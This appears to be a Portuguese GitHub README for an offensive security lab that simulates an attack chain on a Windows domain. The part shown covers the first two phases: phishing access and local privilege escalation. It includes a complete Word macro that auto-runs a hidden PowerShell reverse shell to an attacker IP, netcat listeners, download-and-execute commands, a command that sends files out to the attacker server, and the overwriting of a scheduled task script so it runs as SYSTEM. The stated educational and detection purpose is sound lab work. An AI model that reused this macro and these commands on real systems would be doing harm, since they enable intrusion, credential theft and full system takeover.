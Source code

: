 # Simulação de Cadeia de Ataque - Laboratório de Segurança Ofensiva
<br>
<br>

## Objetivo

Esta parte do projeto é a continuação do projeto anterior [Windows Server AD](https://github.com/MercioRodrigues/Windows-server-AD/blob/main/README.md), no qual foi construído, em laboratório, um ambiente Active Directory. Foram também utilizadas ferramentas que já tinham sido preparadas em outro projeto que realizei anteriormente, o [SOC SOAR Project](https://github.com/MercioRodrigues/SOC-SOAR-Project), nomeadamente o **Wazuh**.  
<br>  
Esta fase tem como objetivo simular uma cadeia de ataque realista em um ambiente de domínio Windows, sem detecção por parte do Windows Defender, explorando diferentes etapas de comprometimento típicas de atacantes reais. A simulação foi conduzida em um laboratório controlado, permitindo, posteriormente, a análise detalhada de cada fase da intrusão.


A cadeia de ataque envolve as seguintes etapas:

1. **Acesso inicial**: comprometimento de uma estação de trabalho através da execução de uma macro maliciosa em um documento do Word.
2. **Escalada de privilégios local**: obtenção de privilégios SYSTEM explorando uma tarefa agendada mal configurada.
3. **Exfiltração de credenciais**: extração da memória do processo LSASS para capturar credenciais em texto claro e hashes NTLM.
4. **Movimentação lateral**: acesso ao controlador de domínio (Domain Controller) utilizando técnicas de Pass-the-Hash.

**Análise pós-ataque**: utilização de ferramentas de monitorização e deteção como **Wazuh** e **Wireshark** para investigar a intrusão e compreender os rastros deixados nos logs do sistema e na rede.

O objetivo final é obter não apenas uma shell no controlador de domínio, mas também documentar detalhadamente os indicadores de comprometimento (IoCs), comportamentos suspeitos e evidências forenses que podem ser usadas por equipes de defesa para deteção precoce e resposta a incidentes.

---

⚠️ *Aviso: Este projeto foi realizado exclusivamente para fins educacionais e em ambiente isolado. Nenhuma das técnicas aqui descritas deve ser utilizada em ambientes reais sem autorização explícita.*


<br>
<br>

## 🧪 Fase 1 - Acesso Inicial via Macro em Documento Word (Phishing)

Nesta fase inicial, o atacante utilizou **engenharia social (phishing)** para induzir um colaborador da organização a abrir um documento Word malicioso. O documento continha uma macro em VBA (Visual Basic for Applications) configurada para executar automaticamente ao abrir o ficheiro.

###  Objetivo

Obter uma **shell reversa PowerShell** no sistema da vítima sem levantar suspeitas, utilizando `Wscript.Shell` para evadir políticas de execução e manter a execução em segundo plano.

---

### 📄 Conteúdo da Macro

A macro maliciosa foi inserida no Editor do Visual Basic para Aplicações, dentro do módulo `NewMacros`. O código é dividido em duas partes:

- `AutoOpen()`: executa a macro automaticamente ao abrir o ficheiro
- `test()`: define e executa o payload PowerShell em modo oculto

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    ' test Macro
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ""$command = {while($true){try {$cl = New-Object System.Net.Sockets.TcpClient('192.168.1.205',443);$st = $cl.GetStream();$rd = New-Object IO.StreamReader($st);$wr = New-Object IO.StreamWriter($st);$wr.AutoFlush = $true;while($cl.Connected){$cmd = $rd.ReadLine();if($cmd -eq 'exit'){break;}try{$res = iex $cmd 2>&1 | Out-String;}catch{$res = $_.Exception.Message;} $wr.WriteLine($res);$wr.Flush();}$cl.Close();}catch{Start-Sleep -Seconds 10;}}}; Start-Process powershell -WindowStyle Hidden -ArgumentList '-NoProfile', '-ExecutionPolicy', 'Bypass', '-Command', $command"""
    Set objshell = Nothing
End Sub
```

<p align="center">
 
  <br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/14196c25-96e6-43dc-b1f4-ce14bd0be6be" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

---

### Listener do Atacante

Enquanto o documento era aberto pela vítima, o atacante encontrava-se à escuta na máquina Kali, utilizando `netcat` com `rlwrap` para suportar histórico e edição de linha:

```bash
rlwrap nc -lvnp 443
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/1d6fd6d7-a226-44c2-a28a-da105117975d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resumo**

O código PowerShell embutido na macro estabelece uma conexão TCP reversa para o endereço do atacante (192.168.1.205) na porta 443. Após a conexão, o script entra num loop que:

**1.** Recebe comandos enviados pelo atacante

**2.** Executa os comandos localmente com Invoke-Expression (iex)

**3.** Envia a saída da execução de volta através do canal TCP

Este tipo de técnica é comum em ataques fileless, pois evita gravações em disco e contorna políticas de execução do PowerShell.

 <br/>
    <br/>

## 🧪 Fase 2 — Escalada de Privilégios Local

Após o acesso inicial, o próximo objetivo foi escalar privilégios para obter controlo total do sistema como **NT AUTHORITY\SYSTEM**.  
Esta fase consistiu na **descoberta e exploração de uma tarefa agendada mal configurada**, permitindo a execução de código com permissões elevadas.

---

### 1. Preparação do Ambiente de Investigação

Foi criado um servidor de upload/download em Python na máquina atacante para facilitar a transferência de ficheiros entre as máquinas:

```bash
python3 upload_server.py
# [+] Serving HTTP upload/download server at port 8080
```

---

### 2. Execução do WinPEAS e Exfiltração do Output

Na shell da vítima, foi executado o `winPEASps1.ps1`, e a saída foi guardada num ficheiro `.txt`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.205:8080/winPEASps1.ps1') | Out-File "$env:USERPROFILE\Downloads\winpeas.txt" -Encoding ASCII
```

Em seguida, o ficheiro foi exfiltrado para a máquina do atacante:

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/winpeas.txt" -Method PUT -InFile "C:\Users\jsilva\Downloads\winpeas.txt"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/d11db3f6-816b-45a4-b7a7-11ef05ae2246" height="60%" width="60%"/>
    <br/>
    <br/>
    <img src="https://github.com/user-attachments/assets/1cd6ede9-e275-484c-9a32-ac27e3fbdcac" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>



---

### 3. Análise do Output do WinPEAS

Na máquina atacante, o output foi segmentado por tarefas agendadas:

```bash
awk '
/^TaskName:/ {
    ++i;
    f = sprintf("task_%03d.txt", i);
}
f { print > f }
' winpeas.txt
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/1dacf129-6f1a-4b05-8fcb-f7febbe8d0bb" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

Depois, filtrou-se por tarefas que correm como `SYSTEM`:

```bash
grep -l "Run As User: *SYSTEM" task_*.txt > SYSTEM_tasks.txt
```

E procuraram-se scripts suspeitos:

```bash
grep -Ei "ps1|bat|cmd|exe" $(cat SYSTEM_tasks.txt) | grep -i "task to run"
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/845d809a-25e0-4a1a-b050-028f2f5db977" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Foi identificado a seguinte tarefa crítica:

```text
task_012.txt:Task To Run: powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -File C:\TempTask\svc_launcher.ps1
```

Lendo o conteudo de **task_012.txt** conseguimos obter a informação mais completa sobre a tarefa.

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/c523e3eb-39da-4398-b588-4091550ed2bf" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

---

### 4. Verificação de Permissões

Foi verificado que o utilizador comprometido (`jsilva`) tinha permissões de **controlo total** sobre o ficheiro `.ps1` usado pela tarefa:

```powershell
icacls C:\TempTask\svc_launcher.ps1
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/875ef2f9-e9af-465e-b1c8-45014cca5b24" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Saída relevante:

```
PILAO\jsilva:(I)(F)          → Full control — pode sobrescrever este ficheiro
NT AUTHORITY\SYSTEM:(I)(F)   → A tarefa agendada corre o script como SYSTEM
```

---

### 5. Substituição do Script e Execução da Tarefa

Foi feito o upload de um **script malicioso** com reverse shell, substituindo o original:

```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://192.168.1.205:8080/svc_launcher.ps1' -OutFile 'C:\TempTask\svc_launcher.ps1'"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/4d36fb25-f3e4-47c3-b7c3-4efe2c2cf370" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Como a tarefa era configurada para correr ao arrancar o sistema, pode-se esperar que a vitima inicie a máquina mas, como tratasse de um laboratório forcei o reinício:

```powershell
Restart-Computer -Force
```

---

### 6. Resultado — Shell como SYSTEM

Na máquina atacante, aguardou-se ligação à porta 4444:

```bash
rlwrap nc -lvnp 4444
```

Após o reinício da vítima:

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/448ad18a-e3b8-4bee-b28b-f0d69decd94f" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>




A escalada foi bem-sucedida! O atacante obteve **acesso completo com privilégios SYSTEM**.

---

### Resumo

A má configuração de permissões num script chamado por uma tarefa agendada como SYSTEM foi explorada com sucesso para **escalar privilégios localmente**.

A utilização do `winPEAS` permitiu descobrir a vulnerabilidade, a análise de permissões confirmou a possibilidade de exploração, e a substituição do script permitiu ganhar **controlo total do sistema**, com acesso **persistente**.

